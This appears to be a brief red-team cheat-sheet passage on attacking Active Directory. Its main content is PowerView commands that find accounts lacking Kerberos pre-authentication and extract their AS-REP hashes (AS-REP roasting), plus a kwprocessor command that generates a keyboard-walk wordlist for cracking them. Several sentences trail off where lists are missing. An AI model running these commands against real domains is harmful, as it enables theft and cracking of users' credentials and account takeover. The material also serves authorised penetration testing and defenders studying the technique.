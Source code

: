 ## **More fun in AD**

Below are a collection of items to run within a new environment to check for

In addition the bloodhound and basic net enumeration try looking for the following:

Next try running

Powerup

as well as hamrj0y's powerview tips

[https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)



Determine if kerberos pre-auth is not set

```
With Powerview

Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
Get-ASREPHash -UserName victim -Domain testlab.local -Verbose
Invoke-ASREPRoast -Verbose | fl
```

Note: A great tool for cracking hashes is kwprocessor

```
./kwp -z basechars/full.base keymaps/en.keymap routes/2-to-16-max-3-direction-changes.route > largekwpshift.txt
```



[http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/](http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)


